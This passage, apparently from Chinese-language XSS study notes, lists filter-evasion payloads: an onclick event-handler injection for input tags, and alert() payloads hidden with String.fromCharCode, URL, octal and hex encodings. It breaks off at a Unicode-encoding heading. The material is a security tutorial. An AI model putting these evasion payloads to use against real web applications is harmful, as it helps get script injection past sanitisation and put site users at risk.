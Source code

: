 <img src="图片\Snipaste_2023-02-02_13-57-56.png" alt="Snipaste_2023-02-02_13-57-56" style="zoom:80%;" />

但是有在 input 这些标签里是不用考虑标签实体化，因为用不上<>这两个标签

```
<input type="text" name="username" value="" onclick="javascript:alert('xss');"/>
```

<img src="图片\Snipaste_2023-02-02_13-58-38.png" alt="Snipaste_2023-02-02_13-58-38" style="zoom:80%;" />

#### ascii 编码

```
<script>alert(String.fromCharCode(88,83,83))</script>
```

#### url 编码

```
<a href="javascript:%61%6c%65%72%74%28%32%29">123</a>
```

#### JS 编码

https://www.jb51.net/tools/zhuanhuan.htm

#### 八进制编码

```
<script>eval("\141\154\145\162\164\50\61\51");</script>
```

#### 16 进制编码

```
<script>eval("\x61\x6c\x65\x72\x74\x28\x31\x29")</script>
```

#### jsunicode 编码
